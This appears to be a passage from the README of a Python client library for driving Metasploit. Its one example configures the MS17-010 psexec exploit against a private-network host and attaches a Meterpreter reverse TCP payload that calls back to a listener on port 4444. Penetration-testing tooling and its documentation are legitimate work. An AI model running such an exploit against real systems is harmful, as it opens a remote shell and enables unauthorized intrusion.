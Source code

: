 ### Configuring payload options

For some usecases you might need to specify payload options, here's an example on how to do so.

	exploit = client.modules.use('exploit', 'windows/smb/ms17_010_psexec')
	exploit['RHOSTS'] = '172.28.128.13'
	payload = client.modules.use('payload', 'windows/meterpreter/reverse_tcp')
	payload['LHOST'] = '172.28.128.1'
	payload['LPORT'] = 4444
	exploit.execute(payload=payload)


### More examples

Many other usage examples can be found in the `example_usage.py` file.

# Contributions

I highly encourage contributors to send in any and all pull requests or issues. Thank you to allfro for writing
the original pymetasploit library.
